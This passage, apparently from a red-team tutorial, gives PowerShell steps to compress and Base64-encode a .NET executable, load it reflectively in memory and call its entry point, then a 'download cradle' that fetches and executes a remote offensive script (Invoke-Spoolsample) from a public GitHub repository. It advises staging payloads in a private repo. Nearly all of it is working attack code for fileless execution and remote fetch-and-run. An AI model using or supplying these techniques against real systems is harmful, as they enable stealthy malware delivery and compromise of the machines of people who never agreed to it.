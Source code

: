 ### Step 2 – GZip + Base64 Encode Artifact

```powershell
$fileBytes = [System.IO.File]::ReadAllBytes("C:\\Path\\To\\ConsoleApp1.exe")
$memoryStream = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($memoryStream,[IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($fileBytes,0,$fileBytes.Length); $gzipStream.Close()
$base64String = [Convert]::ToBase64String($memoryStream.ToArray())
$base64String | Out-File -FilePath "ConsoleApp1_Gzip_Base64.txt"
```

### Step 3 – In‑Memory Load & Invoke Entry Point

Embed the base64 blob and call `Main()`:

```powershell
function Invoke-CSharpMain {
    $a = New-Object IO.MemoryStream(,[Convert]::FromBase64String('<GZIP_BASE64_HERE>'))
    $decompressed = New-Object IO.Compression.GzipStream($a,[IO.Compression.CompressionMode]::Decompress)
    $output = New-Object System.IO.MemoryStream
    $decompressed.CopyTo($output)
    [byte[]]$byteOutArray = $output.ToArray()

    $asm = [System.Reflection.Assembly]::Load($byteOutArray)

    # Capture stdout
    $OldConsoleOut = [Console]::Out
    $StringWriter = New-Object IO.StringWriter
    [Console]::SetOut($StringWriter)

    [Program]::Main()  # assumes Program.Main() entry point and no namespace

    [Console]::SetOut($OldConsoleOut)
    $StringWriter.ToString()
}

Invoke-CSharpMain
```

> **Important:** The assembly must expose a global `Program` type in the default namespace or update the call accordingly.

### Step 4 – Remote Load via Download Cradle

Classic PowerShell cradle to pull remote tooling:

```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/refs/heads/master/PowerSharpBinaries/Invoke-Spoolsample.ps1')
```

Replace with your own raw GitHub path (private red‑team staging recommended).

---